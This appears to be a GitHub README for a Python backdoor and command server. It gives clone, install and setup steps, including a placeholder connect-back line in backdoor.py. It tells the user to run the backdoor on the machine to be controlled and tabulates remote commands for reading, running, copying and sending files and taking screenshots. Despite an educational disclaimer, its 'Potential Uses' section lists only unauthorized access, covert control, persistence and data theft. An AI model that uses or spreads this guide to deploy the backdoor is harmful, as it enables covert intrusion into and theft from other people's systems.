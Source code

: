 # Backdoor-And-Server 💻🔗

- Welcome to the Backdoor-And-Server project, a powerful yet educational server-client Python application that enables you to remotely execute commands on the server from the backdoor. 

## Warning 🚨
**Please note that this project is intended for educational and research purposes only. Use it responsibly and only on devices and systems for which you have explicit authorization. The author of this project is not responsible for any misuse or illegal activities involving this software.**

## Table of Contents

1. [Installation Process](#installation-process-) 📥
2. [Requirements](#requirements-%EF%B8%8F)
3. [Pre-Execution Setup](#pre-execution-setup) ⏮️
4. [Execution](#execution) 🏃‍♂️
5. [Available Commands](#available-commands) 💻
6. [Potential Uses](#potential-uses) 💡

## Installation Process 📥

- Let's get you started with Backdoor-And-Server. First, clone the repository and navigate to the `Backdoor-And-Server` directory:

```bash
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

## Requirements 🛠️

Next, install the requirements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install pyautogui
```
For **Backdoor.py**
```
$ pip3 install tqdm
```

## Pre Execution ⏮️

- On line number **137** of **server.py** file
```
137. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```
- On line number **153** of **backdoor.py** file
```
153. s.connect(('xx.xxx.xx.xx',xxxx))  #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```

## Execution 🏃‍♂️

- Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
- Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
- This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands 💡

- Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 🌟

- Backdoor and server can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.
